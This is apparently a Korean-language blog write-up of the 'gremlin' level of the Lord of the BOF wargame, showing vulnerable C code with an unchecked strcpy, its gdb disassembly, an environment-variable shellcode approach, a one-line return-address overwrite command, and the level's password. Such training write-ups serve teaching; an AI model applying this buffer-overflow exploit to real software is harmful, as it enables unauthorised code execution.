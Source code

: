 ```yaml
---
title: "BOF - Lv.2 gremlin"
excerpt: "Lv.2 gremlin"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - buffer overflow
---
```


## 1. Source Code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer 
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```
```
(gdb)
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,16
0x8048436 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:    jg     0x8048453 <main+35>
0x804843c <main+12>:    push   0x80484d0
0x8048441 <main+17>:    call   0x8048350 <printf>
0x8048446 <main+22>:    add    %esp,4
0x8048449 <main+25>:    push   0
0x804844b <main+27>:    call   0x8048360 <exit>
0x8048450 <main+32>:    add    %esp,4
0x8048453 <main+35>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:    add    %eax,4
0x8048459 <main+41>:    mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:    push   %edx
0x804845c <main+44>:    lea    %eax,[%ebp-16]
0x804845f <main+47>:    push   %eax
0x8048460 <main+48>:    call   0x8048370 <strcpy>
0x8048465 <main+53>:    add    %esp,8
0x8048468 <main+56>:    lea    %eax,[%ebp-16]
0x804846b <main+59>:    push   %eax
0x804846c <main+60>:    push   0x80484dc
0x8048471 <main+65>:    call   0x8048350 <printf>
0x8048476 <main+70>:    add    %esp,8
0x8048479 <main+73>:    leave
0x804847a <main+74>:    ret
```

## 2. Vulnerability

버퍼의 크기가 16인데 쉘코드 길이는 25byte, 41byte 등으로 버퍼안에 쉘코드를 넣어줄 수가 없음. 그래서 환경변수를 이용하여 문제를 해결해야 함.  
환경변수를 이용하면 변수의 주소를 리턴주소로 설정하면 되므로 버퍼의 크기에 상관없이 쉘코드를 실행시킬 수 있다. [환경변수 설정 및 주소 구하기](https://pistolwest.github.io/linux/bof/environment-value/)
## 3. Solution
환경변수 주소 ex)0xbffffc34 를 리턴 주소로 해주면 끝임. 
```
./cobolt `python -c 'print "\x90"*20+"\x34\xfc\xff\xbf"'`
``` 
my-pass : hacking exposed